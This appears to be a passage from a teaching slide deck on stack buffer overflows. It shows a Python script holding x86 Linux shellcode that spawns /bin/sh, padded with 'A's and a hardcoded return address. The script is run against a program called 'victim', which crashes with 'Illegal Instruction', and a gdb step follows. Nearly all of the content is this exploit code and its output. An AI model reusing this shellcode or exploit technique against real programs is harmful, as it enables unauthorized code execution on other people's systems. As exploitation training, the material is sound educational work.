

# I use Python
bash, perl, C all work fine
$ cat sc.py
#!/usr/bin/python

sc = \
"\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43" +\
"\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5" +\
"\xff\xff\xff/bin/sh/xAAAABBBB"

print sc + "A"*(256-len(sc))+"AAAA"+"\x18\xf7\xff\xff";
$ ./victim $(./sc.py)
Illegal Instruction
$

Let’s use gdb: gdb victim, b main, r $(./sc.py)